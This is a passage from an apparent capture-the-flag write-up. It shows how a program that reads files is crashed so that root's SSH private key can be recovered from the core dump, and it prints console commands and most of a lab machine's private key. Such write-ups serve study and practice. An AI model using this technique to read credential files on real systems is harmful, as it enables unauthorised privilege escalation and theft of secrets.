 Let's try `SIGABRT`.

We know root has a private rsa key, let's grab it.

```console
dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ jobs -l
[1]+  4342 Stopped                 ./count
dasith@secret:/opt$ kill -SIGABRT 4342
dasith@secret:/opt$ fg
./count
Aborted (core dumped)
dasith@secret:/opt$ ls /var/crash/
_opt_count.1000.crash
```

[This](https://askubuntu.com/a/947532) answer mentions an executable named `apport-unpack` that extracts our `CoreDump` from `apport`'s crash report in `/var/crash`.

```console
dasith@secret:/opt$ mkdir /tmp/.temp
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/.temp/
dasith@secret:/opt$ strings /tmp/.temp/CoreDump | sed -n '/-----BEGIN OPENSSH PRIVATE KEY-----/,/-----END OPENSSH PRIVATE KEY-----/p'
-----BEGIN OPENSSH PRIVATE KEY-----
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
```